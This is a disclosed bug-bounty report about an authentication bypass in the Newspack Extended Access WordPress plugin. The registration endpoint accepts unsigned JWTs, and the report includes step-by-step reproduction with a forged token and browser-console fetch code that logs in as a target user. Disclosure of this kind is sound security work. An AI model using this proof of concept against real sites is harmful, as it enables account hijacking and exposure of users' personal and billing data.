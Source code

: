 # Authentication & Registration Bypass in Newspack Extended Access

## Report Details
- **Report ID**: 2472798
- **URL**: https://hackerone.com/reports/2472798
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-04-21T03:37:31.991Z
- **Disclosed**: 2024-05-20T21:32:56.061Z

## Reporter
- **Username**: xurizaemon0
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
## Summary:

The Newspack Extended Access plugin omits to validate JWT signing on the registration and login JSON endpoint. This permits registration of accounts with arbitrary (user-supplied) details, and auth bypass and account hijack if a target account email is known.

## Platform(s) Affected:

Any website using [Newspack Extended Access plugin](https://github.com/Automattic/newspack-extended-access).

## Steps To Reproduce:

Create an unsigned JWT containing payload value `{email: "target@example.org"}`. Use a browser to supply this data to the Extended Access registration endpoint. Browser will be authenticated as the target user.

Alternative attack path: use lack of validation to create new accounts with "Customer" role via same endpoint using untrusted inputs. Potential for malicious inputs or DoS through unprotected user creation endpoint.

### Requirements

  1. Site installed and configured with Newspack Extended Access (+ dependencies incl WooCommerce, WC Memberships, Newspack).
  1. Target user email is known (for account hijack)

Notes:

  1. For account hijack, target user must be registered via SwG / Extended Access initially
  1. For account hijack, target user is not Administrator or Editor (but may be any other privileged or unprivileged role)

### Reproduction (account hijack)

1. Be logged out of the target website
1. Create a JWT token with value `email` set to the target account email. This can be done using the website https://token.dev - the `email` value is the only significant input for account hijack. Copy the resulting token value.
1. Visit the target website and use the following code in browser console to authenticate as the target user:

```
// Endpoint URL
let url = `${window.location.protocol}//${window.location.hostname}/wp-json/newspack-extended-access/v1/google/register`;
// JWT contents - this JWT contains email "test@example.org".
let token = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwiZW1haWwiOiJ0ZXN0QGV4YW1wbGUub3JnIiwiaWF0IjoxNzEzNjY2NjQ5LCJleHAiOjE3MTM2NzAyNDl9.I8D18nWsn5H6AylwJdak8727APyiMCWkcnXH95vMF_k";
// Provide token to authentication endpoint.
fetch(  
    url,  
    {  
       cache: 'no-store',  
       method: 'POST',  
       headers: {  
          'Content-type': 'text/plain',  
       },  
       body: token  
    }  
).then(response => {  
    console.log(response.json(), 'response');  
})
```

The browser will now be logged into the target account. Personal data (eg the target user's additional account details, billing address etc) will be visible to the attacker.

### Reproduction (account creation)

Submitting new accounts via the above method is also possible. Accepting untrusted user submitted input here may allow for additional attack paths when user details are displayed to administrator. Potential for abuse of unprotected submissions via the endpoint would likely permit additional attacks by creating excessive user accounts.

## Supporting Material/References:

JWT is accepted without validation of JWT signature. Ref https://github.com/Automattic/newspack-extended-access/blob/trunk/includes/class-rest-controller.php#L81-L87

Mitigation: Newspack Extended Access prevents sign-in via this method if the user has role "Editor" or "Administrator", but does not prevent sign-in if the user has other privileged roles eg "Shop Administrator". Ref https://github.com/Automattic/newspack-extended-access/blob/trunk/includes/class-rest-controller.php#L96-L99

Mitigation: Newspack restricts authentication to user accounts which have metadata indicating that Signin with Google was used for initial sign-in. Ref https://github.com/Automattic/newspack-plugin/blob/trunk/includes/reader-activation/class-reader-activation.php#L681-L690

## Impact

- Registration of accounts with arbitrary (user-supplied) details
- Authentication bypass if the target account email is known
- Injection of untrusted data into user profiles

## Attachments
No attachments
